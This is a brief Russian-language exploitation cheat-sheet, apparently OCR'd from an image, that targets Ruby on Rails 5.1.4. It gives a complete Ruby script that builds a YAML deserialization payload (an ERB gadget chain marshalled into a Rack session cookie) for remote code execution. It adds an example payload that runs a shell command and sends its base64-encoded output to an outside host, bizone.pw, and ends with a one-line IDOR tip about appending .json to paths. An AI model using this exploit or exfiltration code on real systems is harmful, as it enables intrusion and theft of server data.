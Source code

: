 Точно работает на Rails **5.1.4**

```ruby
require "erb"
require "base64"
require "active_support"
 
if ARGV.empty?
  puts "Usage: exploit_builder.rb <source_file>"
  exit!
end
 
erb = ERB.allocate
erb.instance_variable_set :@src, File.read(ARGV.first)
erb.instance_variable_set :@lineno, 1
 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
 
payload = Base64.encode64(Marshal.dump(depr))
 
puts <<-PAYLOAD
---
!ruby/object:Gem::Requirement
requirements:
  - !ruby/object:Rack::Session::Abstract::SessionHash
      req: !ruby/object:Rack::Request
        env:
          rack.session: !ruby/object:Rack::Session::Abstract::SessionHash
            loaded: true
          HTTP_COOKIE: "a=#{payload}"
      store: !ruby/object:Rack::Session::Cookie
        coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
        key: a
        secrets: []
      exists: true
PAYLOAD
```

Пример payload:

```ruby
require "base64"
out = `pwd`
url = URI.parse('http://bizone.pw')
req = Net::HTTP::Get.new(url.to_s + '/?q=' + Base64.strict_encode64(out))
res = Net::HTTP.start(url.host, url.port) {|http|
  http.request(req)
}
```

## IDOR in RoR

Добавление .json к пути, если у нас Ruby
